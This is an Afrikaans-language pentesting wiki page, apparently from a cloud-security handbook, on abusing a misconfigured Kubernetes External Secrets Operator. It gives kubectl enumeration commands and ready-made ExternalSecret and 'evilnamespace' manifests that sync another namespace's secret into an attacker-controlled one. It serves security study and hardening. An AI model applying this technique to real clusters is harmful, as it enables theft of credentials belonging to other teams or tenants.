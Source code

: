 # Eksterne Geheim Operateur

**Die oorspronklike skrywer van hierdie bladsy is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Hierdie bladsy gee 'n paar aanwysers oor hoe jy kan slaag om geheime te steel van 'n verkeerd geconfigureerde ESO of aansoek wat ESO gebruik om sy geheime te sinchroniseer.

## Vrywaring

Die tegniek wat hieronder getoon word, kan slegs werk as sekere omstandighede voldoen is. Byvoorbeeld, dit hang af van die vereistes wat nodig is om 'n geheim te sinchroniseer op 'n naamspasie wat jy besit / gekompromitteer het. Jy moet dit self uitsorteer.

## Vereistes

1. 'n Voet in 'n kubernetes / openshift groep met administratiewe voorregte op 'n naamspasie
2. Lees toegang tot ten minste ExternalSecret op groepvlak
3. Vind uit of daar enige vereiste etikette / annotasies of groepslidmaatskap is wat nodig is om ESO toe te laat om jou geheim te sinchroniseer. As jy gelukkig is, kan jy vrylik enige gedefinieerde geheim steel.

### Inligting insamel oor bestaande ClusterSecretStore

Neem aan dat jy 'n gebruiker het wat genoeg regte het om hierdie hulpbron te lees; begin deur eers 'n lys van bestaande _**ClusterSecretStores**_ te maak.
```sh
kubectl get ClusterSecretStore
```
### Eksterne Geheim opsomming

Laat ons aanneem jy het 'n ClusterSecretStore genaamd _**mystore**_ gevind. Gaan voort deur sy geassosieerde eksterne geheim op te som.
```sh
kubectl get externalsecret -A | grep mystore
```
_Die hulpbron is namespace omvang, so tensy jy reeds weet in watter namespace om te soek, voeg die -A opsie by om regoor alle namespaces te soek._

Jy moet 'n lys van gedefinieerde externalsecret kry. Laat ons aanneem jy het 'n externalsecret objek genaamd _**mysecret**_ gevind wat gedefinieer en gebruik word deur namespace _**mynamespace**_. Versamel 'n bietjie meer inligting oor watter soort geheim dit bevat.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Die stukke saamstel

Van hier af kan jy die naam van een of meer geheime name kry (soos gedefinieer in die Secret-hulpbron). Jy sal 'n uitset kry soortgelyk aan:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
```html
<p>So far we got:</p>

<ul>
<li>Name a ClusterSecretStore</li>
<li>Name of an ExternalSecret</li>
<li>Name of the secret</li>
</ul>

<p>Now that we have everything we need, you can create an ExternalSecret (and eventually patch/create a new Namespace to comply with prerequisites needed to get your new secret synced):</p>
```
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Na 'n paar minute, as die sinchroniseringstoestande voldoen is, behoort jy in staat te wees om die uitgelekte geheim binne jou namespace te sien.
```sh
kubectl get secret leaked_secret -o yaml
```
## Verwysings

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
